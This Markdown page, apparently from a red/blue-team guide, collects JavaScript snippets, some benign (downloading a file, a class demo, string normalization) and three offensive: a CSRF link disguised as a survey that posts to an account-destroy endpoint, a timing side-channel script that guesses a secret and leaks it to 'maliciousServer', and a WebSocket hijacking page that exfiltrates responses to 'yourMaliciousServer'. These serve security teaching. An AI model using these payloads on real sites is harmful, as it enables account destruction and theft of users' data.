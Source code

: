 
# CODE EXAMPLES
1. [DOWNLOAD FILE](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#download-file-webconsole)
2. [CREATE CLASS](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#create-class-webconsole)
3. [CONTROL WINDOW SIDEBAR](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#control-window-sidebar-webconsole)
4. [CSRF](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#csrf)
5. [NORMALIZE STRING](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#normalize-string)
6. [MEASURE PERFORMANCE (SIDE CHANNEL ATTACK)](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#measure-performance)
7. [WEBSOCKET](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#websocket)

<br />

## Download File (WebConsole)
```
function downloadURI(uri, name) 
{
    var link = document.createElement("a");
    // If you don't know the name or want to use
    // the webserver default set name = ''
    link.setAttribute('download', name);
    link.href = uri;
    document.body.appendChild(link);
    link.click();
    link.remove();
}
downloadURI("https://example.com/file.png", "captcha1")
```
<br />

## Create Class (WebConsole)
```
class Animals {
  constructor(name, age) {
    this.name = name;
    this.specie = age;
  }
  
  sing(){
    return `${this.name} can sing.`;
  }
  
  dance(){
    return `${this.name} can dance.`;
  }
}  

let bingo = new Animals("bingo", "10");
console.log(bingo);
console.log(bingo.sing());
```
<br />

## Control Window Sidebar (WebConsole)
- Open WebDev Tool
- `window.scrollby(x, y);`

<br />

## CSRF
```
<a href="http://www.harmless.com/" onclick="
  var f = document.createElement('form');
  f.style.display = 'none';
  this.parentNode.appendChild(f);
  f.method = 'POST';
  f.action = 'http://www.example.com/account/destroy';
  f.submit();
  return false;">To the harmless survey</a>
```

<br />

## Normalize String
- Details: [https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/normalize](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/normalize)
```
x = "ã" 

console.log('Unicode codepoint:', 
  x.charCodeAt(0).toString(16),
  x.charCodeAt(1).toString(16))
// → Unicode codepoint: 61 303

console.log('Normalize:', x.normalize('NFC'))
console.log('Normalize:', x.normalize('NFD'))
console.log('Normalize:', x.normalize('NFKC'))
console.log('Normalize:', x.normalize('NFKD'))
```

## MEASURE PERFORMANCE
- Could be used for **Sidechannel Attacks**
```
<script>
  const t0 = performance.now();
  for (let i = 0; i < 10; i++) {
    console.log(i);
  }
  const t1 = performance.now();
  console.log(`Call to doSomething took ${t1 - t0} milliseconds.`);
</script>
```

- Script to measure time difference while guessing key
- Sending correct guess back to own server
```
<!DOCTYPE html>
<body onload="document.getElementById('attack');">
<script id="attack">

var str = "0123456789-abcdef".split("");
var base = "http://vulnerable.com/search?search=^";
var key = "";
var i = 0;

function check(key, i) {
  url = base + key + str[i];
  t0 = performance.now();
  fetch(
    url,
    {
      method: 'GET',
      credentials: 'include',
      mode: 'no-cors'
    }
  ).catch(err => {
      console.log("ERR");
  }).then(response => {
      t1 = performance.now();
      if (t1-t0 > 3000 ) {
          document.write("<br /> [+] "+str[i]+" "+(t1-t0).toString());
          key += str[i];
          document.write('<img src="http://maliciousServer/?leak='+key+'" />');
          j = 0;
          while (j < str.length){
            check(key,j);
            j+=1;
          }

      } else {
          document.write("<br /> [x]"+str[i]+" "+(t1-t0).toString());
    }
  });
}

while (i < str.length) {
  setTimeout(check(key, i), 500*i);
  i+=1;
}

</script>
</body>
</html>
```

## WEBSOCKET
```
<html>
<body>
<script>
var uri      = "ws://vulnerable.com/";
var ws       = new WebSocket(uri);

ws.onmessage = function(message) {
  document.write('<img src="http://yourMaliciousServer/?c='+message.data+'" />');
};

ws.onopen = () => ws.send("COMMAND");

</script>
</body>
</html>
